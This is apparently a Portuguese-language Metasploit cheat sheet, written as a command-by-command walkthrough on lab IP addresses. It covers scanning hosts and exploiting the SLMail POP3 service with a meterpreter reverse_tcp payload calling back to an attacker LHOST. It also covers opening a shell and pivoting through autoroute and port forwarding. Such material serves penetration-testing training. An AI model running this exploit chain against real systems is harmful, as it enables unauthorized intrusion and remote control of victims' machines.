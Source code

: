 # MetaSploit Framework

Ferramenta desenvolvida pela rapid7.com para auxiliar na criação e utilização de exploits.

---

Iniciando o BD para o MSF:

```bash
msfdb init
```

---

Iniciando MSF:

```bash
service postgresql start  
msfconsole
```

---

Comando de ajuda:

```msf
msf > help
```

---

Verificando a conexão com o banco de dados:

```msf
msf > db_status
```

---

Escaneamento de alvo salvando as informações no DB:

```msf
msf > db_nmap -A 172.16.1.4
```

---

Importando arquivo XML do NMAP:

```bash
nmap -v -A 172.16.1.5 -oX host5.xml  
msf > db_import host5.xml
```

---

Listagem dos hosts:

```msf
msf > hosts
```

---

Verificando vulnerabilidade nos hosts:

```msf
msf > vulns
```

---

Listagem de serviços:

```msf
msf > services
```

---

Buscando exploit:

```msf
msf > search slmail
```

---

Usando exploit:

```msf
msf > use exploit/windows/pop3/seattlelab_pass
```

---

Ver informações do exploit:

```msf
msf exploit(seattlelab_pass) > info
```

---

Setando parâmetros no exploit:

```msf
msf exploit(seattlelab_pass) > show options  
msf exploit(seattlelab_pass) > set RHOST 172.16.1.4  
msf exploit(seattlelab_pass) > show options
```

---

Verificando payloads disponíveis:

```msf
msf exploit(seattlelab_pass) > show payloads
```

---

Setando payload para ser utilizado:

```msf
msf exploit(seattlelab_pass) > set payload windows/  meterpreter/reverse_tcp  
msf exploit(seattlelab_pass) > show options  
msf exploit(seattlelab_pass) > set LHOST 172.20.0.2  
msf exploit(seattlelab_pass) > set LPORT 4444  
msf exploit(seattlelab_pass) > show options
```

---

Executando exploit:

```msf
msf exploit(seattlelab_pass) > exploit  
meterpreter > ipconfig
```

---

Verificando comandos no meterpreter:

```msf
meterpreter > help
```

---

Abrindo o shell:

```msf
meterpreter > shell
```

---

Colocando meterpreter em segundo plano:

```msf
meterpreter > background
```

---

Retomando meterpreter:

```msf
msf > session -i 4
```

---

Exibindo módulos auxiliares:

```msf
msf > show auxiliary
```

---

Utilizando um módulo auxiliar:

```msf
msf > use auxiliary/scanner/smb/smb_version  
msf > show options  
msf > set RHOSTS 172.16.1.5  
msf > run
```

---

Criando rota da rede do alvo para a nossa máquina:

```msf
meterpreter > run autoroute -s 192.168.0.0/24
```

---

Criando redirecionamento de porta do alvo para a nossa máquina:

```msf
meterpreter > portfwd add -l 3389 -p 3389 -r 192.168.0.101
```

Output: ``[*] Local TCP relay created: 0.0.0.0:3389 >-> 192.168.0.101:3389``